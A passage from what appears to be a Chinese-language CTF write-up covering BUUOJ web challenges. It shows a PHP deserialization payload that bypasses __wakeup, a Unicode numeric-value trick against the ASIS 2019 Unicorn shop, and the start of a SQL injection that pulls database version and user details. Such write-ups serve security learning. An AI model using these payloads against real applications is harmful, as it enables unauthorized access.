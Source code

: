 目的是跳过wakeup，利用反序列化的漏洞即可。注意这里private成员反序列化后，类名前和变量名前都有ASCII零，因此选择用python发送。

```python
>>> url = "http://735a68fd-aaf6-437c-b7c8-c2aabe4e979b.node3.buuoj.cn"
>>> payload = 'O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}'
>>> res = requests.get(url+"?select="+payload)
>>> print(res.text)
```

`flag{c335e323-6b3b-444d-876f-7a1d92624304}`

## [ASIS 2019]Unicorn shop(Python Unicode漏洞

这道题的靶场复现没有做好。大概意思是：输入的数据只能是一位，却要我们购买第四个价值千元的物品。我们随便尝试一些数据后发现报错信息

```python
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/site-packages/tornado/web.py", line 1541, in _execute
    result = method(*self.path_args, **self.path_kwargs)
  File "/app/sshop/views/Shop.py", line 34, in post
    unicodedata.numeric(price)
TypeError: need a single Unicode character as parameter
```

看到这里调用了将Unicode转换为Numeric的方法。

[这个网站](https://www.compart.com/en/unicode/)提供了很多关于Unicode的数据。联想到以前阅读的Python文档，Unicode是有一个字面值的，我们希望找到单个Unicode字符的字面值大于1337，然后提交

![](https://ww1.yunjiexi.club/2020/02/07/1QrtL.png)

查看网页，发现关键信息

```html
<meta charset="utf-8">
```

于是我们找到编码方式，抓包修改数据即可。

![](https://ww1.yunjiexi.club/2020/02/07/1Qqpb.png)

```
id=4&price=%E1%8D%BC
```

`flag{75f7a091-5393-432e-bd81-feec67c02eb0}`

## [SWPU2019]Web1(无列名注入

发现xss+SQL，xss试了下没成功，SQL过滤了一些，但还是尝试出来了。首先确定列数，经过一些尝试。。

![](https://ww1.yunjiexi.club/2020/02/07/1yQuB.md.png)

后面用单引号闭合，因为报错信息显示了limit 0,1前面还有一个引号。

回显的地方是2和3，我们在2和3得到这样信息

```
version: 10.2.26-MariaDB-log
user: root@localhost
database: web1
```
